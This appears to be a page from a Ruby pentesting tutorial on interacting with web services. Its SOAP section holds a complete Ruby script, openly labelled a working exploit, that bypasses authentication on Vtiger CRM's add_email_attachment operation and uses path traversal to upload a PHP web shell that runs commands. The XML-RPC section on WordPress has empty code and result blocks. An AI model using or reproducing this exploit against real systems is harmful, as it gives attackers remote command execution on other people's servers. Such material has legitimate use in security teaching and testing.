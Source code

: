 # Interacting with Web Services

### SOAP - WSDL
Generally speaking, dealing with SOAP means dealing with XMLs that which WSDL describes how to use that SOAP. Ruby has really elegant way to do so and let's to get our hand dirty with an exploit

```
gem install savon httpclient
```

This is a working exploit for Vtiger CRM SOAP from Auth-bypass to Shell upload 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client 
client = Savon::Client.new(wsdl: url)

# List all avialable operations 
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment, 
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING", 
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id"

```



### XML-RPC
Ruby has a [standard library][2] called `xmlrpc` which take care of all xmlrpc stuff you can even create an xmlrpc server using it. Let's  to get  Some real word example 

Looking for really known application that support XMLRPC then of course Wordpress was the first attendee. 

So what do we want to do?
- Say hello to wordpress 
- List all available methods
- List all available users
- List all available post
- Create a new post!


```ruby

```

Results 

```
```

and here is the new post










<br><br><br>
---
[1]:
[2]: http://ruby-doc.org/stdlib-2.2.3/libdoc/xmlrpc/rdoc/XMLRPC/Client.html
